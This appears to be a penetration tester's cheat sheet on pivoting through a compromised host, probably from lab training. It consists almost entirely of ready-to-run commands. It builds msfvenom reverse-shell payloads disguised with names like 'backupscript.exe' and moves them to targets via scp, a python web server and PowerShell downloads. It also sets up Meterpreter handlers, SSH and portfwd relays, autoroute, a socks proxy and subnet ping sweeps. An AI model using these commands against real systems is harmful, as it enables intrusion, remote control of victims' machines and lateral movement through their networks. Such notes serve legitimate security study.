 
Create windows payload for rev shell
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

Create ubuntu payload for rev shell
```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```


Open metasploit and setup handler
```shell-session
msf6 > use exploit/multi/handler
```


Transferring files over ssh 
```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```


Starting python web server on pivot host to setup local transfer with powershell
```shell-session
python3 -m http.server 8123
```

Transferring file via powershell on pivot host
```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

SSH remote port forwarding on pivot host
```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

Ping sweep for host on subnet
```shell-session
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
Note: It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.

Setting up msf socks proxy
```shell-session
use auxiliary/server/socks_proxy
```

Check if socks proxy if running
```shell-session
auxiliary(server/socks_proxy) > jobs
```


msf autoroute outside of meterpreter sessions
```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

msf autoroute within meterpreter session
```shell-session
run autoroute -s 172.16.5.0/23
```

list active routes
```shell-session
run autoroute -p
```

Creating tcp relay
```shell-session
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

view sessions
```shell-session
netstat -antp
```

Reverse port forward on pivot host rev shell
```shell-session
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

Setting up multi handler on from attack host
```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
```

